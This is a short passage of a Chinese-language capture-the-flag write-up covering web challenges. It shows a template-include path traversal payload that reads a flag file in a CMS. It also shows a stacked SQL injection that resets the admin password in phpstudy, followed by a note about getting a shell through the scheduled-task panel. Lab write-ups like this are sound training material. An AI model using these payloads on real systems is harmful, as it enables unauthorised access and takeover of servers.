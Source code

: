 ```nginx
# 使用这个标签可以直接都到flag，要问怎么发现的，那都是之前想办法读那个服务器中的install.php文件的时候发现的....
{{include filename='../../../../../flag'}}
```

![image-20230514190912437](web-qqcms.assets/image-20230514190912437.png)



# phpstudy

## 堆叠注入

```nginx
# 123456
admin';update admins set password='c26be8aaf53b15054896983b43eb6a65';--             
```

>   **登录了在进行了在计划任务那执行shell**

****

本以为是xss的rce，网上也一大片，然后搁那试了好久，一直打不通，后面在网上找到个有堆叠的注入的，然后就打进去了

https://www.o2takuxx.com/index.php/2023/03/30/nkctf-2023-web/#toc-head-15

# easypy

## 扫目录
